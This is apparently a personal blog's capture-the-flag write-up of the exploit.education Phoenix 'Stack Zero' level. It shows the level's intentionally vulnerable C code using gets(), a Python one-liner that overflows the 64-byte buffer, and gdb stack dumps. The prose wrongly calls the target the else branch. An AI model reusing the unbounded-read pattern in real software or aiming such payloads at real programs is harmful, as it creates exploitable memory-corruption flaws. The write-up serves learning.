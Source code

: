 ```yaml
---
layout: post
title: "Stack 0x0"
category: CTF 
tagline:
tags: [binary exploitation phoenix wargame ctf learning]
---
```

{% include JB/setup %}

# Stack 0

https://exploit.education/phoenix/stack-zero/

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
    "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
    struct {
        char buffer[64];
        volatile int changeme;
    } locals;

    printf("%s\n", BANNER);

    locals.changeme = 0;
    gets(locals.buffer);

    if (locals.changeme != 0) {
        puts("Well done, the 'changeme' variable has been changed!");
    } else {
        puts(
            "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
    }

    exit(0);
}
```

The goal of this challenge is to force the program to branch to the else path.
This can be easily achieved by overwriting the buffer member of the locals struct. By wrting past the bounds (vulnerable function is gets) of buffer, the 32-bit integer changeme can be overwritten.

```
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "A"*64 + "B"*4' | ./stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

# Debugging

Stack before the call to `gets`:

```
(gdb) x/32xw $esp
0xffffd554:     0x00000000      0x0000006f      0x00000010      0x080482b4
0xffffd564:     0x08048551      0x00000000      0x0000004e      0x00000000
0xffffd574:     0x00000000      0x00000000      0x00000000      0x00000011
0xffffd584:     0xf7ffd19c      0x00000000      0x08048294      0x00000000
0xffffd594:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd5a4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd5b4:     0xffffd5d0      0xffffd650      0xf7f8f654      0xffffd644
0xffffd5c4:     0x00000002      0xffffd650      0xf7f8f654      0x00000002
```

After the overflow:

```
(gdb) x/32xw $esp
0xffffd550:     0xffffd56c      0x00000000      0x0000006f      0x00000010
0xffffd560:     0x080482b4      0x08048551      0x00000000      0x41414141
0xffffd570:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd580:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd590:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5c0:     0x41414141      0x00006141      0xffffd650      0xf7f8f654
```

# Fix

This vulnerability can be remediated by properly checking the bounds of the input data.

